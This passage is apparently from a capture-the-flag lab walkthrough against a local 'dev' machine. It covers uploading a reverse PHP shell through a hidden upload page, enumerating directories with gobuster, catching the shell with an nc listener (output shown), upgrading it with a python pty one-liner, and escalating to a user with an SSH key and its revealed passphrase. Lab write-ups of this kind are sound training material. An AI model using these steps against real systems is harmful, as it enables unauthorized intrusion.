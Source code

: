 - Now a place to upload the payload.
- I went to the 'Actions' category on right, scroll down to find 'Upload'.
- It redirected to the upload source code page.
- I removed the '&action=source' part from the link and the upload page loaded.

./upload-shell.png

- Selected and uploaded the reverse php shell file succesfully.

### 11. Bursting Directories

- To find where the files are stored, we can use gobuster to discover directories.

		$sudo gobuster dir -u http://192.168.100.219:8080/dev/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php

Result: ./8080-directory-burst2
Directories: 	

/index.php
/pages
/files
/config               
/forms


### 12. Getting a reverse shell

- In '/files' you can find the uploaded payload, before you run it set up a natcat listener on your attacker machine with the port number u specified  before inside the webshell.

./files-upload.png

	$>> nc -lvnp 1234
	Listening on 0.0.0.0 1234
	Connection received on 192.168.100.227 52646
	Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
	 23:25:21 up  1:23,  1 user,  load average: 0.00, 0.00, 0.02
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	root     tty1     -                22:02    1:22m  0.05s  0.03s -bash
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/bin/sh: 0: can't access tty; job control turned off
	$ whoami
	www-data

- Run "python3 -c 'import pty;pty.spawn("/bin/bash")'" to make the shell interactive.

### 13. Privilege escalation 

#### To User

- Navigate to '/home' and list users to find 'jeanpaul' as the user.
- We already have a 'id_rsa' file. Use it to ssh into machine as the user.
- Due to the permissions, we can't access the machine.
- For that we 'su' our machine and try it again.
- It requires the passphrase cuz of encryption which is 'I_love_java'.
- We successfully escalated our privileges to User.
